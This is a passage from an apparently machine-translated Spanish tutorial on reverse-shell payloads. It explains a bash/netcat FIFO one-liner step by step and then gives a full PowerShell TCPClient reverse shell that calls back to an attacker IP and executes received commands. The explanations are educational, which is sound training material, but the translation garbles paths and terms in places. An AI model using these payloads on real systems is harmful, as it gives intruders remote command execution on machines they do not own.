 Hacer un[FIFO llamado Pipe File](https://man7.org/linux/man-pages/man7/fifo.7.html)en la ubicación especificada. En este caso, /TMP /F es el archivo de tubería llamado FIFO, el semi-colon (`;`) se usa para ejecutar el comando secuencialmente.

### **Redirección de salida**

Introducción a las cargas útiles

```
cat /tmp/f |

```

Concatena el archivo de tubería con nombre fifo /tmp /f, la tubería (`|`) conecta la salida estándar de CAT /TMP /F a la entrada estándar del comando que viene después de la tubería (`|`).

### **Establecer opciones de shell**

Introducción a las cargas útiles

```
/bin/bash -i 2>&1 |

```

Especifica el intérprete de lenguaje de comando usando el`-i`Opción para garantizar que el shell sea interactivo.`2>&1`Asegura el flujo de datos de error estándar (`2`) `&`flujo de datos de salida estándar (`1`) se redirigen al comando que sigue a la tubería (`|`).

### **Abra una conexión con NetCat**

Introducción a las cargas útiles

```
nc 10.10.14.12 7777 > /tmp/f

```

Utiliza NetCat para enviar una conexión a nuestro host de ataque`10.10.14.12`escuchando en el puerto`7777`. La salida será redirigida (`>`) a /tmp /f, servir el shell de bash a nuestro oyente de Netcat que espera cuando se ejecuta el comando de una línea de una sola línea

---

# **PowerShell One-Liner explicó**

Las conchas y cargas útiles que elegimos usar en gran medida dependen del sistema operativo que estamos atacando. Tenga en cuenta esto mientras continuamos a lo largo del módulo. Fuimos testigos de esto en la sección de conchas inversas estableciendo un shell inverso con un sistema de Windows usando PowerShell. Desglosemos la línea de una sola que usamos:

### **PowerShell de una línea**

Introducción a las cargas útiles

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
